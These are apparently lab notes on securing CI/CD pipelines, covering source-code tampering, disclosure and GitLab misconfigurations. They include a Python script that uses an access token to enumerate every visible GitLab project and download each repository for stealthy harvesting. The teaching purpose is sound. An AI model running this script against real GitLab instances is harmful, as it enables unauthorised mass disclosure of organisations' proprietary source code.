 Securing the pipeline begins with securing the source code. Protecting source code involves addressing two main issues:

1. **Unauthorised Tampering**: Only authorized users should change the source code, necessitating control over who can push new code to repositories.
2. **Unauthorised Disclosure**: Some source code may be sensitive (e.g., proprietary code like Microsoft Word). It's crucial to prevent unintentional disclosures of such code.

## Confusion of Responsibilities

Large organizations often mistakenly believe that perimeter security is sufficient. This can lead to misconfigurations:

- **Registration Misconfigurations**: Allowing internal users to register for GitLab can significantly increase the attack surface. For example, in a bank with 10,000 employees, a breach could allow a compromised employee to access sensitive repositories.
- **Misconfigured Repos**: Developers might wrongly assume that internal accessibility allows for public sharing of sensitive repos. This misunderstanding can lead to unauthorized exposure of intellectual property.

## Exploiting a Vulnerable Build Source

When registered on GitLab, attackers can automate the process of enumerating publicly visible repositories. Although manual methods exist, automation ensures stealth and efficiency. To use automation:
```py

import gitlab
import uuid

# Create a Gitlab connection
gl = gitlab.Gitlab("http://gitlab.tryhackme.loc/", private_token='enterTokenHere')
gl.auth()

# Get all Gitlab projects
projects = gl.projects.list(all=True)

# Enumerate through all projects and try to download a copy
for project in projects:
    print ("Downloading project: " + str(project.name))
    #Generate a UID to attach to the project, to allow us to download all versions of projects with the same name
    UID = str(uuid.uuid4())
    print (UID)
    try:
        repo_download = project.repository_archive(format='zip')
        with open (str(project.name) + "_" + str(UID) +  ".zip", 'wb') as output_file:
            output_file.write(repo_download)
    except Exception as e:
        # Based on permissions, we may not be able to download the project
        print ("Error with this download")
        print (e)
        pass
```
